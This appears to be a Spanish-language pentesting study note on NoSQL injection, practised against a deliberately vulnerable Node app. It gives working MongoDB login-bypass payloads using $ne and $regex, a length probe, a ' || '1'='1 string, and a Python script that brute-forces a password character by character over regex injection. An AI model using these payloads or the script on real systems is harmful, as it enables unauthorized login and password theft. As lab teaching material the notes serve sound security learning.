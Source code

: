 # Inyecciones NoSQL

Tags: #NoSQLI #OWASP #Explotacion #MongoSQLI 

Las **inyecciones NoSQL** son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en **documentos** en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las **bases de datos relacionales**.

A continuación, se proporciona el enlace al proyecto de Github que nos descargamos para poner en práctica esta vulnerabilidad:

-   **Vulnerable-Node-App**: [https://github.com/Charlie-belmer/vulnerable-node-app](https://github.com/Charlie-belmer/vulnerable-node-app)


## Inyecciones 

En esta pagina podemos encontrar ejemplos de inyecciones NoSQL
* PayloadAllTheThings: [PayloasAllTheThings-NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

Podemos interceptar las peticiones en **BurpSuite y ahi inyectar los NoSQLI**. Esto lo prodriamos hacer en el **Repeater**.
* Peticion por **POST**
* Debemos tramitar la data en **Json**
* Debemos de tener en **Content Type: application/json**, ya que si no, no nos va a servir.

```bash
{                                    # Peticion original interceptada en BurpSuite 
	"username":"admin",
	"password":"admin"
}
```


* Iniciando la inyeccion NoSQL
```bash
{                                    # Probaremos el NoEqual = $ne, sin saber la passwd
	"username":"admin",
	"password":{
		"$ne":"admin"
	}
}
```
Aquí le diremos que la passwd no es igual a 'admin', por lo que es una afirmación correcta y entrara al login.

```bash
{                                    # Probaremos el NoEqual = $ne, sin saber la passwd y el usuario
	"username":{
		"$ne":"omar"
	},
	"password":{
		"$ne":"admin"
	}
}
```
En esta ocasión le diremos que el usuario no es 'omar' y la passwd no es 'admin', por lo que es una afirmación correcta y entrara al login.


* Tambien podemos aplicar **Regex = Expresiones Regulares**
```bash
{                                    # Con este Regex le decimos que el usuario (^a = empieza por 'a'), con la passwd correcta
 	"username":{
		"$regex":"^a"
	},
	"password":"admin"
}
```

```bash
{                                    # Con este Regex le decimos que el usuario (^a = empieza por 'a'), y diciendo que la passwd no es admin
 	"username":{
		"$regex":"^a"
	},
	"password":{
		"$ne":"admin"
	}
}
```

Para saber la longitud
```bash
{                                    # Para saber la longitud de caracteres, la cual si es menor o igual a la original la tomara como correcta pero si se pasa sera error
	"username":"admin",
	"password":{
		"$regex":".{24}"
	}
}
```


Podríamos aplicar Fuerza Bruta con las Regex para ir probando carácter por carácter y así ir descubriendo la passwd de algún usuario especifico que exista.
```python 
❯ nano NoSQL.py

	#!/usr/bin/python3
	from pwn import *
	import requests, time, sys, signal, string

	def def_handler(sig, frame):
		print("\n\n[!] Saliendo...\n")
		sys.exit(1)

	# Ctrl + c
	signal.signal(signal.SIGINT, def_handler)

	# Variables globales
	main_url = "http://localhost:4000/user/login"
	characters = string.ascii_lowercase + string.ascii_uppercase + string.digits           # Probariamos de la a-z A-Z y los numeros

	def makeNoSQLI():
		password = ""
		p1 = log.progress("Fuerza Bruta")
		p1.status("Iniciando fuerza bruta")
		time.sleep(2)
		p2 = log.progress("Password")
		
		for position in range(0, 100):               #Podemos cancelar el bucle cuando ya haya terminado de descifrar la passwd y no esperar a las 100 evaluaciones
			for character in characters:
				post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password, character)
				p1.status(post_data)
				headers = {'Content-Type': 'application/json'}
				r = requests.post(main_url, headers=headers, data=post_data)
				if "Logged in as user" in r.text:
					password += character
					p2.status(password)
					break 
					
	if __name__ == '__main__':
	makeNoSQLI()
```


## Mongo SQLI

* PayloadAllTheThings: [PayloasAllTheThings-NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
* HackTricks: [Hacktricks-Mongo-NoSQLI](https://book.hacktricks.xyz/pentesting-web/nosql-injection#sql-mongo)

Algunas inyecciones para MongoDB
```bash
❯ ' || '1'='1                                       # La mas sencilla, con la cuarta comilla estamnos cerrando la inyeccion
```